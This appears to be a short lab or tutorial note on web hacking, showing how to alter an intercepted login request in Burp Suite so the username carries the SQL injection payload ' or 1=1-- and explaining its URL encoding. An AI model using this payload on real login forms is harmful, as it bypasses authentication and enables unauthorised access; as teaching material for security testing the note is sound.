

# To burp suite

username=%27%27or+1%3D1--&password=&login-php-submit-button=Login
Change into
username=%27+or+1%3D1--+&password=&login-php-submit-button=Login
%27 is a single quote (')
+ is a space
%3D is a equal sign (=